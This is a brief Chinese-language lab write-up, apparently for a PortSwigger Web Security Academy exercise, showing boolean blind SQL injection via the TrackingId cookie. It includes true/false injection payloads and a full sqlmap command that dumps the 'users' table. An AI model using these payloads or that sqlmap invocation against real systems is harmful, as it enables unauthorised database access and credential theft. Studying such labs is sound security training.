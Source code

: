 cookie中的TrackingId存在布尔盲注

```javascript
TrackingId=qjuCxOqaqliFBZIo'+and+1=1--
```

响应中含有welocme back



```javascript
TrackingId=qjuCxOqaqliFBZIo'+and+1=2--
```

响应中不含有welocme back



可以使用sqlmap进行布尔盲注：

```javascript
sqlmap -u"https://acdc1ff31e4b36ba8046046200ae00da.web-security-academy.net" 
--cookie="TrackingId=qjuCxOqaqliFBZIo; session=P4r9aqFAWSWvfrR3BXV2vQ0WtRFbOU7i" 
--level 2 --skip="session" --string="Welcome back" 
--dump -T"users" -D"public" 
--technique B --force-ssl
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/6059ADE9088C491CADDE542B1FF537C9clipboard.png)

